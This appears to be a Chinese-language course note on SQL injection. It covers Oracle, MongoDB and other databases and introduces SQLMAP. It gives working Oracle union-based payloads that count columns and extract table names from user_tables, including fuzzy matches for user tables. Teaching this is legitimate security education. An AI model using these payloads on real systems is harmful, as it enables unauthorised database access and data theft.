 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195635-18b1866c-3cf9-439f-bc14-a6c5fce3011b.png)

```plain
#知识点：
1、数据库注入-Oracle&Mongodb
2、数据库注入-DB2&SQLite&Sybase
3、SQL注入神器-SQLMAP安装使用拓展

#SQLMAP
-什么是SQLMAP？
-它支持那些数据库注入？
-它支持那些SQL注入模式？sqlmap不支持nosql注入
-它支持那些其他不一样功能？
-使用SQLMAP一般注入流程分析？

#SQL注入课程体系：
1.数据库注入    - access mysql mssql oracle mongodb postgresql等
2.数据类型注入 - 数字型 字符型 搜索型 加密型(base64 json)等
3.提交方式注入 - get post cookie http头等 
4.查询方式注入 - 查询 增加 删除 更新 堆叠等
5.复杂注入利用 - 二次注入 dnslog注入 绕过bypass等
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135201802-81479e9f-ee95-4d8f-bb8c-d4479e8a1379.png)

------

- 数据库注入-联合猜解-Oracle&Mongodb
- Oracle

```plain
参考文章：https://www.cnblogs.com/peterpan0707007/p/8242119.html
测字段：order by 2
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195029-a0f81ac3-52ca-49a1-bff1-bd2402238b89.png)

爆数字：union select '1','2' from dual

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135194916-660d2b88-7522-4833-93ce-f54cf59b19a2.png)

```plain
爆表：and 1=2 union select '1',(select table_name from user_tables where rownum=1) from dual
记录表名字：LOGMNR_SESSION_EVOLVE$
但是这样查询过于复杂，不适用，所以有下面的模糊爆库
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135194925-bf8759c6-ab27-4583-870b-f22839215446.png)

```plain
模糊爆表：and 1=2 union select '1',(select table_name from user_tables where rownum=1 and table_name like '%user%') from dual
记录表名：sns_users
```
